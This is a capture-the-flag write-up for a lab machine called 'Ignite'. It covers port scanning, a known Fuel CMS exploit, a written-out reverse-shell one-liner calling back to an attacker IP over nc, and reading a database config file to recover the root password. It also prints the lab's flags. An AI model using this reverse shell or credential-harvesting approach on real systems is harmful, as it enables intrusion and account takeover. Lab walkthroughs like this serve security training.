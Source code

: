 # Ignite
### #1 	User flag

Scan for open ports
```
nmap -sV 
80/tcp open  ssl/http Apache/2.4.18 (Ubuntu)
```
Scan for hidden files
```
dirbuster
```
Access the webpage
```
Fuel CMS Version 1.4
```
Lets se if there is an known exploit
```
CVE-2018-16763
```
Found a python 3 exploit script.

Run a listener on port 5555
```
nc -lnvp 5555
```
Send the shell to my pc
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.100.167 5555 >/tmp/f" > shell.sh
```
Make it excecutable
```
chmod +x shell.sh
```
Run the script
```
./shell.sh
```

Get normal bash
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Cat out the first flag
```
cat /home/www-data/flag.txt
6470e394cbf6dab6a91682cc8585059b 
```

### #2 	Root flag

Cat out the database file to have a look. 

```
cat /var/html/fuel/application/config/database.php
...

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
...
```

Get root and write the password we just got
```
su - root
```

Cat out the root flag
```
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d 
```
